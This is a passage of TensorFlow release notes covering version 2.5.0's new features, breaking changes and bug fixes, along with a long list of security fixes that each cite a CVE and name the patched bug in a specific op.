    ([CVE-2021-29610](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29610))
*   Fixes a heap buffer overflow in `BandedTriangularSolve`
    ([CVE-2021-29612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29612))
*   Fixes vulnerabilities caused by incomplete validation in
    `tf.raw_ops.CTCLoss`
    ([CVE-2021-29613](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29613))
*   Fixes an interpreter crash from vulnerabilities in `tf.io.decode_raw`
    ([CVE-2021-29614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29614))
*   Fixes a stack overflow in `ParseAttrValue` with nested tensors
    ([CVE-2021-29615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29615))
*   Fixes a null dereference in Grappler's `TrySimplify`
    ([CVE-2021-29616](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29616))
*   Fixes a crash in `tf.transpose` with complex inputs
    ([CVE-2021-29618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29618))
*   Fixes a crash in `tf.strings.substr` due to `CHECK`-fail
    ([CVE-2021-29617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29617))
*   Fixes a segfault in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-29619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29619))
*   Fixes a segfault in `tf.raw_ops.ImmutableConst`
    ([CVE-2021-29539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29539))
*   Updates `curl` to `7.76.0` to handle
    [CVE-2020-8169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8169),
    [CVE-2020-8177](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8177),
    [CVE-2020-8231](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8231),
    [CVE-2020-8284](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284),
    [CVE-2020-8285](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8285)
    and
    [CVE-2020-8286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8286).

# Release 2.5.0

## Major Features and Improvements

*   Support for Python3.9 has been added.
*   `tf.data`:
    *   `tf.data` service now supports strict round-robin reads, which is useful
        for synchronous training workloads where example sizes vary. With strict
        round robin reads, users can guarantee that consumers get similar-sized
        examples in the same step.
    *   tf.data service now supports optional compression. Previously data would
        always be compressed, but now you can disable compression by passing
        `compression=None` to `tf.data.experimental.service.distribute(...)`.
    *   `tf.data.Dataset.batch()` now supports `num_parallel_calls` and
        `deterministic` arguments. `num_parallel_calls` is used to indicate that
        multiple input batches should be computed in parallel. With
        `num_parallel_calls` set, `deterministic` is used to indicate that
        outputs can be obtained in the non-deterministic order.
    *   Options returned by `tf.data.Dataset.options()` are no longer mutable.
    *   tf.data input pipelines can now be executed in debug mode, which
        disables any asynchrony, parallelism, or non-determinism and forces
        Python execution (as opposed to trace-compiled graph execution) of
        user-defined functions passed into transformations such as `map`. The
        debug mode can be enabled through
        `tf.data.experimental.enable_debug_mode()`.
*   `tf.lite`
    *   Enabled the new MLIR-based quantization backend by default
        *   The new backend is used for 8 bits full integer post-training
            quantization
        *   The new backend removes the redundant rescales and fixes some bugs
            (shared weight/bias, extremely small scales, etc)
        *   Set `experimental_new_quantizer` in tf.lite.TFLiteConverter to False
            to disable this change
*   `tf.keras`
    *   `tf.keras.metrics.AUC` now support logit predictions.
    *   Enabled a new supported input type in `Model.fit`,
        `tf.keras.utils.experimental.DatasetCreator`, which takes a callable,
        `dataset_fn`. `DatasetCreator` is intended to work across all
        `tf.distribute` strategies, and is the only input type supported for
        Parameter Server strategy.
*   `tf.distribute`
    *   `tf.distribute.experimental.ParameterServerStrategy` now supports
        training with Keras `Model.fit` when used with `DatasetCreator`.
    *   Creating `tf.random.Generator` under `tf.distribute.Strategy` scopes is
        now allowed (except for
        `tf.distribute.experimental.CentralStorageStrategy` and
        `tf.distribute.experimental.ParameterServerStrategy`). Different
        replicas will get different random-number streams.
*   TPU embedding support
    *   Added `profile_data_directory` to `EmbeddingConfigSpec` in
        `_tpu_estimator_embedding.py`. This allows embedding lookup statistics
        gathered at runtime to be used in embedding layer partitioning
        decisions.
*   PluggableDevice
    *   Third-party devices can now connect to TensorFlow as plug-ins through
        [StreamExecutor C API](https://github.com/tensorflow/community/blob/master/rfcs/20200612-stream-executor-c-api.md).
        and
        [PluggableDevice](https://github.com/tensorflow/community/blob/master/rfcs/20200624-pluggable-device-for-tensorflow.md)
        interface.
        *   Add custom ops and kernels through
            [kernel and op registration C API](https://github.com/tensorflow/community/blob/master/rfcs/20190814-kernel-and-op-registration.md).
        *   Register custom graph optimization passes with
            [graph optimization C API](https://github.com/tensorflow/community/blob/master/rfcs/20201027-modular-tensorflow-graph-c-api.md).
*   [oneAPI Deep Neural Network Library (oneDNN)](https://github.com/oneapi-src/oneDNN)
    CPU performance optimizations from
    [Intel-optimized TensorFlow](https://software.intel.com/content/www/us/en/develop/articles/intel-optimization-for-tensorflow-installation-guide.html)
    are now available in the official x86-64 Linux and Windows builds.
    *   They are off by default. Enable them by setting the environment variable
        `TF_ENABLE_ONEDNN_OPTS=1`.
    *   We do not recommend using them in GPU systems, as they have not been
        sufficiently tested with GPUs yet.
*   TensorFlow pip packages are now built with CUDA11.2 and cuDNN 8.1.0

## Breaking Changes

*   The `TF_CPP_MIN_VLOG_LEVEL` environment variable has been renamed to to
    `TF_CPP_MAX_VLOG_LEVEL` which correctly describes its effect.

## Bug Fixes and Other Changes

*   `tf.keras`:

    *   Preprocessing layers API consistency changes:
        *   `StringLookup` added `output_mode`, `sparse`, and
            `pad_to_max_tokens` arguments with same semantics as
            `TextVectorization`.
        *   `IntegerLookup` added `output_mode`, `sparse`, and
            `pad_to_max_tokens` arguments with same semantics as
            `TextVectorization`. Renamed `max_values`, `oov_value` and
            `mask_value` to `max_tokens`, `oov_token` and `mask_token` to align
            with `StringLookup` and `TextVectorization`.
        *   `TextVectorization` default for `pad_to_max_tokens` switched to
            False.
        *   `CategoryEncoding` no longer supports `adapt`, `IntegerLookup` now
            supports equivalent functionality. `max_tokens` argument renamed to
            `num_tokens`.
        *   `Discretization` added `num_bins` argument for learning bins
            boundaries through calling `adapt` on a dataset. Renamed `bins`
            argument to `bin_boundaries` for specifying bins without `adapt`.
    *   Improvements to model saving/loading:
        *   `model.load_weights` now accepts paths to saved models.
    *   Keras inputs can now be created directly from arbitrary `tf.TypeSpecs`.
    *   Two new learning rate schedules added:
        `tf.keras.optimizers.schedules.CosineDecay`
        and`tf.keras.optimizers.schedules.CosineDecayRestarts`.

*   `tf.data`:

    *   Exposing `tf.data.experimental.ExternalStatePolicy`, which can be used
        to control how external state should be handled during dataset
        serialization or iterator checkpointing.
    *   Changing `tf.data.experimental.save` to store the type specification of
        the dataset elements. This avoids the need for explicitly specifying the
        `element_spec` argument of `tf.data.experimental.load` when loading the
        previously saved dataset.
    *   Add `.element_spec` property to `tf.data.DatasetSpec` to access the
        inner spec. This can be used to extract the structure of nested
        datasets.
    *   Add `tf.data.experimental.AutoShardingPolicy.HINT` which can be used to
        provide hints to tf.distribute-based auto-sharding as to where in the
        input pipeline to insert sharding transformations.
    *   Make tf.data.Options persistent across `tf.function` and `GraphDef`
        boundaries.

*   XLA compilation:

    *   `tf.function(experimental_compile=True)` has become a stable API,
        renamed `tf.function(jit_compile=True)`.
    *   XLA can now compile MirroredStrategy: the step function passed
        to`strategy.run` can now be annoted with `jit_compile=True`.

*   `tf.distribute`:

    *   Rename `experimental_prefetch_to_device` in `tf.distribute.InputOptions`
        to `experimental_fetch_to_device` to better reflect the purpose.

*   `tf.lite`:

    *   class `tflite::Subgraph`:
        *   Removed the `tensors()` method and the non-const overload of the
            `nodes_and_registration()` method, both of which were previously
            documented as temporary and to be removed.
            *   Uses of `tensors()` can be replaced by calling the existing
                methods `tensors_size()` and `tensor(int)`.
            *   Uses of the non-const overload of `nodes_and_registration` can
                be replaced by calling the existing methods `nodes_size()` and
                `context()`, and then calling the `GetNodeAndRegistration`
                method in the `TfLiteContext` returned by `context()`.
    *   NNAPI
        *   Removed deprecated `Interpreter::UseNNAPI(bool)` C++ API.
            *   Use `NnApiDelegate()` and related delegate configuration methods
                directly.
        *   Replaced the model cache key for models computation algorithm with
            one guaranteed to be stable across runs.
    *   16 bits quantization
        *   Added int16x8 support for ABS, REDUCE_MAX and REDUCE_MIN operators.
        *   Additional tests and fixes for ADD and SUB operators.
    *   Added support for saved model's session initializer through
        `TFLiteConverter.from_saved_model`.
    *   Added DEPTH_TO_SPACE support in Post training quantization.
    *   Added dynamic range quantization support for the BatchMatMul op.
        *   Both symmetric and asymmetric quantized input tensor are supported.
    *   Add `RFFT2D` as builtin op. (`RFFT2D` also supports `RFFTD`.) Currently
        only supports float32 input.
    *   Add 5D support to `SLICE` op.
    *   TFLite Supports SingatureDef:
        *   TFLiteConverter exports models with SignatureDef
        *   Interpreter supports getting a list of signatures and getting
            callable function for a given signaturedef.
    *   Add int8 support for `ReshapeV2`.
    *   Add experimental support for optimization with sparsity.
    *   Add nominal support for unsigned 32-bit integer tensor types. Note that
        very few TFLite kernels support this type natively, so its use in mobile
        ML authoring is generally discouraged.
    *   Add support for static hash tables through
        `TFLiteConverter.from_saved_model`.
    *   The Python TF Lite Interpreter bindings now has an option
        `experimental_preserve_all_tensors` to aid in debugging conversion.
    *   Quantized x86 execution defaults to Ruy GEMM library for platforms with
        AVX support.
    *   Deprecate
        `tf.compat.v1.lite.experimental.get_potentially_supported_ops`. Use
        `tf.lite.TFLiteConverter` directly to check whether a model is
        convertible.
    *   Add support to select one of three different built-in op resolvers
    *   Enabled post training with calibrations for models that require user
        provided TensorFlow Lite custom op libraries via
        `converter.target_spec._experimental_custom_op_registerers`. used in
        Python Interpreter API.

*   TF Core:

    *   Corrected higher-order gradients of control flow constructs (`tf.cond`,
        `tf.while_loop`, and compositions like `tf.foldl`) computed with
        `tf.GradientTape` inside a `tf.function`.
    *   Changed the default step size in `gradient_checker_v2.compute_gradients`
        to be exactly representable as a binary floating point numbers. This
        avoids poluting gradient approximations needlessly, which is some cases
        leads to false negatives in op gradient tests.
    *   Added `tf.config.experimental.get_memory_info`, returning a dict with
        the current and peak memory usage. Deprecated
        `tf.config.experimental.get_memory_usage` in favor of this new function.
    *   Extended `tf.config.experimental.enable_tensor_float_32_execution` to
        control Tensor-Float-32 evaluation in RNNs.
    *   Added a 'experimental_payloads' field to tf.errors.OpError and its
        subclasses to support more detailed error reporting. This is inspired
        from Abseil Status payloads:
        https://github.com/abseil/abseil-cpp/blob/master/absl/status/status.h

*   `tf.summary`:

    *   New `tf.summary.graph` allows manual write of TensorFlow graph
        (`tf.Graph` or `tf.compat.v1.GraphDef`) as a summary. This is not a
        replacement for the trace-based API.

*   Set `/d2ReducedOptimizeHugeFunctions` by default for Windows builds. This
    provides a big compile-time speedup, and effectively raises the minimum
    supported MSVC version to 16.4 (current: 16.8).

    *   See:
        https://groups.google.com/a/tensorflow.org/d/topic/build/SsW98Eo7l3o/discussion

*   TensorRT

    *   Removed the deprecated `session_config` parameter for the TF1-TRT
        converter `TrtGraphConverter`. Previously, we issued a warning when the
        value of the parameter is not None.
    *   The TF2-TRT converter `TrtGraphConverterV2` takes an object of class
        TrtConversionParams as a parameter. Removed three deprecated fields from
        this class: `rewriter_config_template`, `is_dynamic_op`, and
        `max_batch_size`. Previously, we issued a warning when the value of
        `rewriter_config_template` is not None. We issued an error when the
        value of `is_dynamic_op` is not True. We didn't use the value for
        `max_batch_size` for building TensorRT engines. Add parameters
        `use_dynamic_shape` to enable dynamic shape support. The default is to
        disable dynamic shape support. Add `dynamic_shape_profile_strategy` for
        selecting a dynamic shape profile strategy. The default is profile
        strategy is `Range`.
    *   Issue a warning when function get_tensorrt_rewriter_config is used.

*   TF XLA

    *   Add new enum value `MLIR_BRIDGE_ROLLOUT_SAFE_MODE_ENABLED` to
        `tf.config.experimental.mlir_bridge_rollout` to enable a \"safe\" mode.
        This runs the MLIR bridge only when an analysis of the graph only when
        an analysis of the graph determines that it is safe to run.
    *   Add new enum value `MLIR_BRIDGE_ROLLOUT_SAFE_MODE_FALLBACK_ENABLED'
        to`tf.config.experimental.mlir_bridge_rollout` to enable a fallback for
        the MLIR bridge in a \"safe\" mode. This runs the MLIR bridge in a
        FallbackEnabled mode when an analysis of the graph determines that the
        graph does not have unsupported features.

*   Deterministic Op Functionality:

    *   Add determinism-unimplemented exception-throwing to the segment-sum ops.
        When the environment variable `TF_DETERMINISTIC_OPS` is set to `"true"`
        or `"1"` (when op-determinism is expected), an attempt to run the
        following ops on a GPU will throw `tf.errors.UnimplementedError` (with
        an understandable message) when `data` is a floating-point type,
        including complex types (if supported): `tf.math.segment_prod`,
        `tf.math.segment_sum`, `tf.math.unsorted_segment_mean`,
        `tf.math.unsorted_segment_sqrt_n`, `tf.math.unsorted_segment_prod`,
        `tf.math.unsorted_segment_sum`, and therefore also
        `tf.convert_to_tensor` when `value` is of type `tf.IndexedSlices` (such
        as in the back prop though `tf.gather` into a dense embedding). See
        issue [39751](https://github.com/tensorflow/tensorflow/issues/39751)
        which this change addresses, but does not solve. This exception-throwing
        behavior can be disabled by setting the environment variable
        `TF_DISABLE_SEGMENT_REDUCTION_OP_DETERMINISM_EXCEPTIONS` to `"true"` or
        `"1"`. For more information about these changes, see the description in
        pull request
        [47772](https://github.com/tensorflow/tensorflow/pull/47772).
    *   In previous versions of TensorFlow, when a GPU was available,
        `tf.sparse.sparse_dense_matmul` introduced truly random noise in the
        forward path for data of type `tf.float32` but not for data of type
        `tf.float64` (for which there was no GPU implementation). In this
        current release, GPU support for other floating-point types
        (`tf.float16`, `tf.float64`, `tf.complex64`, and `tf.complex128`) has
        been added for this op. If you were relying on the determinism of the
        `tf.float64` CPU implementation being automatically selected because of
        the absence of the `tf.float64` GPU implementation, you with either need
        to force the op to run on the CPU or use a different data type.

*   Security

    *   Fixes a heap buffer overflow in `RaggedBinCount`
        ([CVE-2021-29512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29512))
    *   Fixes a heap out of bounds write in `RaggedBinCount`
        ([CVE-2021-29514](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29514))
    *   Fixes a type confusion during tensor casts which leads to dereferencing
        null pointers
        ([CVE-2021-29513](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29513))
    *   Fixes a reference binding to null pointer in `MatrixDiag*` ops
        ([CVE-2021-29515](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29515))
    *   Fixes a null pointer dereference via invalid Ragged Tensors
        ([CVE-2021-29516](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29516))
    *   Fixes a division by zero in `Conv3D`
        ([CVE-2021-29517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29517))
    *   Fixes vulnerabilities where session operations in eager mode lead to
        null pointer dereferences
        ([CVE-2021-29518](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29518))
    *   Fixes a `CHECK`-fail in `SparseCross` caused by type confusion
        ([CVE-2021-29519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29519))
    *   Fixes a segfault in `SparseCountSparseOutput`
        ([CVE-2021-29521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29521))
    *   Fixes a heap buffer overflow in `Conv3DBackprop*`
        ([CVE-2021-29520](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29520))
    *   Fixes a division by 0 in `Conv3DBackprop*`
        ([CVE-2021-29522](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29522))
    *   Fixes a `CHECK`-fail in `AddManySparseToTensorsMap`
        ([CVE-2021-29523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29523))
    *   Fixes a division by 0 in `Conv2DBackpropFilter`
        ([CVE-2021-29524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29524))
    *   Fixes a division by 0 in `Conv2DBackpropInput`
        ([CVE-2021-29525](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29525))
    *   Fixes a division by 0 in `Conv2D`
        ([CVE-2021-29526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29526))
    *   Fixes a division by 0 in `QuantizedConv2D`
        ([CVE-2021-29527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29527))
    *   Fixes a division by 0 in `QuantizedMul`
        ([CVE-2021-29528](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29528))
    *   Fixes vulnerabilities caused by invalid validation in
        `SparseMatrixSparseCholesky`
        ([CVE-2021-29530](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29530))
    *   Fixes a heap buffer overflow caused by rounding
        ([CVE-2021-29529](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29529))
    *   Fixes a `CHECK`-fail in `tf.raw_ops.EncodePng`
        ([CVE-2021-29531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29531))
    *   Fixes a heap out of bounds read in `RaggedCross`
        ([CVE-2021-29532](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29532))
    *   Fixes a `CHECK`-fail in `DrawBoundingBoxes`
        ([CVE-2021-29533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29533))
    *   Fixes a heap buffer overflow in `QuantizedMul`
        ([CVE-2021-29535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29535))
    *   Fixes a `CHECK`-fail in `SparseConcat`
        ([CVE-2021-29534](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29534))
    *   Fixes a heap buffer overflow in `QuantizedResizeBilinear`
        ([CVE-2021-29537](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29537))
    *   Fixes a heap buffer overflow in `QuantizedReshape`
        ([CVE-2021-29536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29536))
    *   Fixes a division by zero in `Conv2DBackpropFilter`
        ([CVE-2021-29538](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29538))
    *   Fixes a heap buffer overflow in `Conv2DBackpropFilter`
        ([CVE-2021-29540](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29540))
    *   Fixes a heap buffer overflow in `StringNGrams`
        ([CVE-2021-29542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29542))
    *   Fixes a null pointer dereference in `StringNGrams`
        ([CVE-2021-29541](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29541))
    *   Fixes a `CHECK`-fail in `QuantizeAndDequantizeV4Grad`
        ([CVE-2021-29544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29544))
    *   Fixes a `CHECK`-fail in `CTCGreedyDecoder`
        ([CVE-2021-29543](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29543))
    *   Fixes a heap buffer overflow in `SparseTensorToCSRSparseMatrix`
        ([CVE-2021-29545](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29545))
    *   Fixes a division by 0 in `QuantizedBiasAdd`
        ([CVE-2021-29546](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29546))
    *   Fixes a heap out of bounds in
        `QuantizedBatchNormWithGlobalNormalization`
        ([CVE-2021-29547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29547))
    *   Fixes a division by 0 in `QuantizedBatchNormWithGlobalNormalization`
        ([CVE-2021-29548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29548))
    *   Fixes a division by 0 in `QuantizedAdd`
        ([CVE-2021-29549](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29549))
    *   Fixes a division by 0 in `FractionalAvgPool`
        ([CVE-2021-29550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29550))
    *   Fixes an OOB read in `MatrixTriangularSolve`
        ([CVE-2021-29551](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29551))
    *   Fixes a heap OOB in `QuantizeAndDequantizeV3`
        ([CVE-2021-29553](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29553))
    *   Fixes a `CHECK`-failure in `UnsortedSegmentJoin`
        ([CVE-2021-29552](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29552))
    *   Fixes a division by 0 in `DenseCountSparseOutput`
        ([CVE-2021-29554](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29554))
    *   Fixes a division by 0 in `FusedBatchNorm`
        ([CVE-2021-29555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29555))
    *   Fixes a division by 0 in `SparseMatMul`
        ([CVE-2021-29557](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29557))
    *   Fixes a division by 0 in `Reverse`
        ([CVE-2021-29556](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29556))
    *   Fixes a heap buffer overflow in `SparseSplit`
        ([CVE-2021-29558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29558))
    *   Fixes a heap OOB access in unicode ops
        ([CVE-2021-29559](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29559))
    *   Fixes a heap buffer overflow in `RaggedTensorToTensor`
        ([CVE-2021-29560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29560))
    *   Fixes a `CHECK`-fail in `LoadAndRemapMatrix`
        ([CVE-2021-29561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29561))
    *   Fixes a `CHECK`-fail in `tf.raw_ops.IRFFT`
        ([CVE-2021-29562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29562))
    *   Fixes a `CHECK`-fail in `tf.raw_ops.RFFT`
        ([CVE-2021-29563](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29563))
    *   Fixes a null pointer dereference in `EditDistance`
        ([CVE-2021-29564](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29564))
    *   Fixes a null pointer dereference in `SparseFillEmptyRows`
        ([CVE-2021-29565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29565))
    *   Fixes a heap OOB access in `Dilation2DBackpropInput`
        ([CVE-2021-29566](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29566))
    *   Fixes a reference binding to null in `ParameterizedTruncatedNormal`
        ([CVE-2021-29568](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29568))
    *   Fixes a set of vulnerabilities caused by lack of validation in
        `SparseDenseCwiseMul`
        ([CVE-2021-29567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29567))
    *   Fixes a heap out of bounds read in `MaxPoolGradWithArgmax`
        ([CVE-2021-29570](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29570))
    *   Fixes a heap out of bounds read in `RequantizationRange`
        ([CVE-2021-29569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29569))
    *   Fixes a memory corruption in `DrawBoundingBoxesV2`
        ([CVE-2021-29571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29571))
    *   Fixes a reference binding to nullptr in `SdcaOptimizer`
        ([CVE-2021-29572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29572))
    *   Fixes an overflow and a denial of service in
        `tf.raw_ops.ReverseSequence`
        ([CVE-2021-29575](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29575))
    *   Fixes a division by 0 in `MaxPoolGradWithArgmax`
        ([CVE-2021-29573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29573))
    *   Fixes an undefined behavior in `MaxPool3DGradGrad`
        ([CVE-2021-29574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29574))
    *   Fixes a heap buffer overflow in `MaxPool3DGradGrad`
        ([CVE-2021-29576](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29576))
    *   Fixes a heap buffer overflow in `AvgPool3DGrad`
        ([CVE-2021-29577](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29577))
    *   Fixes an undefined behavior and a `CHECK`-fail in
        `FractionalMaxPoolGrad`
        ([CVE-2021-29580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29580))
    *   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
        ([CVE-2021-29578](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29578))
    *   Fixes a heap buffer overflow in `MaxPoolGrad`
        ([CVE-2021-29579](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29579))
    *   Fixes a segfault in `CTCBeamSearchDecoder`
        ([CVE-2021-29581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29581))
    *   Fixes a heap OOB read in `tf.raw_ops.Dequantize`
        ([CVE-2021-29582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29582))
    *   Fixes a `CHECK`-fail due to integer overflow
        ([CVE-2021-29584](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29584))
    *   Fixes a heap buffer overflow and undefined behavior in `FusedBatchNorm`
        ([CVE-2021-29583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29583))
    *   Fixes a division by zero in padding computation in TFLite
        ([CVE-2021-29585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29585))
    *   Fixes a division by zero in optimized pooling implementations in TFLite
        ([CVE-2021-29586](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29586))
    *   Fixes a division by zero in TFLite's implementation of `SpaceToDepth`
        ([CVE-2021-29587](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29587))
    *   Fixes a division by zero in TFLite's implementation of `GatherNd`
        ([CVE-2021-29589](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29589))
    *   Fixes a division by zero in TFLite's implementation of `TransposeConv`
        ([CVE-2021-29588](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29588))
    *   Fixes a heap OOB read in TFLite's implementation of `Minimum` or
        `Maximum`
        ([CVE-2021-29590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29590))
    *   Fixes a null pointer dereference in TFLite's `Reshape` operator
        ([CVE-2021-29592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29592))
    *   Fixes a stack overflow due to looping TFLite subgraph
        ([CVE-2021-29591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29591))
    *   Fixes a division by zero in TFLite's implementation of `DepthToSpace`
        ([CVE-2021-29595](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29595))
    *   Fixes a division by zero in TFLite's convolution code
        ([CVE-2021-29594](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29594))
    *   Fixes a division by zero in TFLite's implementation of `EmbeddingLookup`
        ([CVE-2021-29596](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29596))
    *   Fixes a division by zero in TFLite's implementation of `BatchToSpaceNd`
        ([CVE-2021-29593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29593))
    *   Fixes a division by zero in TFLite's implementation of `SpaceToBatchNd`
        ([CVE-2021-29597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29597))
    *   Fixes a division by zero in TFLite's implementation of `SVDF`
        ([CVE-2021-29598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29598))
    *   Fixes a division by zero in TFLite's implementation of `Split`
        ([CVE-2021-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29599))
    *   Fixes a division by zero in TFLite's implementation of `OneHot`
        ([CVE-2021-29600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29600))
    *   Fixes a division by zero in TFLite's implementation of `DepthwiseConv`
        ([CVE-2021-29602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29602))
    *   Fixes a division by zero in TFLite's implementation of hashtable lookup
        ([CVE-2021-29604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29604))
    *   Fixes a integer overflow in TFLite concatentation
        ([CVE-2021-29601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29601))
    *   Fixes a integer overflow in TFLite memory allocation
        ([CVE-2021-29605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29605))
    *   Fixes a heap OOB write in TFLite
        ([CVE-2021-29603](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29603))
    *   Fixes a heap OOB read in TFLite
        ([CVE-2021-29606](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29606))
    *   Fixes a heap OOB and null pointer dereference in `RaggedTensorToTensor`
        ([CVE-2021-29608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29608))
    *   Fixes vulnerabilities caused by incomplete validation in `SparseAdd`
        ([CVE-2021-29609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29609))
